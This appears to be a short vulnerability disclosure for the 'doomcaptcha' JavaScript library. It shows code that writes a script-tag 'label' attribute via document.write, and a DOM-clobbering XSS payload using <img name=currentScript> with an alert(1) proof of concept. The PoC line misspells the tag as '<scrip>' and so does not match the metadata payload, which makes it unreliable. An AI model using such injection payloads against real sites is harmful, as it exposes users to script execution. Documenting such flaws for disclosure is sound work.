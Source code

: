 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Payload: ```<img name=currentScript label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js`

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

```
<img name=currentScript label="<scrip>alert(1)</script>"></img>

<form>
<script src=script.js></script>
</form>
```
